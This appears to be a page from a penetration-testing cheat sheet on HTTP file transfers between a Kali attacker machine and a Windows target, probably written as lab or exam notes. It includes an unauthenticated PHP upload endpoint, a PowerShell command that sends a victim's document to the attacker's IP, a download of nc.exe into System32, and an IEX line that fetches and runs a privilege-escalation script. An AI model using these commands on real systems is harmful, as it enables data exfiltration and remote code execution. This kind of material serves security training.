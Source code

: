 ```yaml
---
title: HTTP File Transfer
layout: default
nav_order: 4
parent: File Transfers

---
```


# HTTP
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }
1. TOC
{:toc}

---

### Python HTTP Server (Kali Machine to Target Machine)

Start HTTP.server module in python3: 
```bash
python3 -m http.server 8000
```

Background HTTP.server process with `CTRL-Z` in terminal and the `bg` command


Use wget or PowerShell  on Windows Machine to download file on open port on Kali machine:
```powershell
$IP="192.168.119.239"
$port="8000"
wget http://${IP}:${port}/somefile.txt
```


NOTE: Sometimes, Internet explorer engine is not configured, so wget may not work on some machines. 

### Apache2 Server (Kali Machine to Target Machine)

Launch apache2 server on Kali machine: 
```bash
sudo systemctl start apache2
```

Create an `uploads.php` file in `/var/www/html` folder with the following contents: 
```bash
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Create an /var/www/uploads folder:
```bash
sudo mkdir /var/www/uploads
```

Adjust permissions on  /var/www/uploads folder:
```bash
sudo chown www-data: /var/www/uploads
```

Restart apache2 server:
```bash
sudo systemctl restart apache2
```

#### Uploading files to Kali Machine
- ##### Upload file
```powershell
$IP="192.168.119.239"
$port="80"
(New-Object System.Net.WebClient).UploadFile('http://${IP}:${port}/uploads.php', 'C:\Users\offsec.CLIENT251\important.docx')
```

#### Downloading files to Windows machine from Kali Machine

- ##### Download as entire file: 
```powershell
$IP="192.168.119.239"
$port="80"
(New-Object System.Net.WebClient).DownloadFile('http://${IP}:${port}/nc.exe', 'C:\Windows\System32\nc.exe')
```

- ##### Download as string:
```powershell
$IP="192.168.119.239"
$port="80"
IEX(new-object system.net.webclient).downloadstring('http://${IP}:${port}/Sherlock.ps1')
```

- ##### Download via `wget`:
```powershell
$IP="192.168.119.239"
$port="80"
wget http://${IP}:${port}/Sherlock.ps1 -Outfile ./Sherlock.ps1
```